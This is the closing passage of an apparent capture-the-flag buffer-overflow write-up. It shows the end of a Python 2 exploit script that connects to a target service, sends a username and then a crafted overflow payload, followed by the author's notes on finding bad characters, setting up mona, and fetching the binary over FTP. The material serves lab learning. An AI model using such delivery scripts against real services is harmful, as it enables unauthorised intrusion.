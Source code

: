 ```python
        print '[+] Sending %s bytes...' % len(string)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        s.recv(1024)
        s.recv(1024)
        s.send("davs" '\r\n')
        s.recv(1024)
        s.send(string + '\r\n')
        print '[+] Done'
except:
    print '([!] A connection cant be stablished to the program. It may have crashed.)'
    sys.exit(0)
finally:
    s.close()
```

And we are in !!!!

We complete this room , i like this room becouse i found another way to get the badchars , as in Buffer-Overflowe Prep , less caotic , and more fun , the only problem i got was setting up mona , and dowloading the exe on ftp , now i know that to download big files of ftp i need to write binary first on the CLI , and then get the file . 

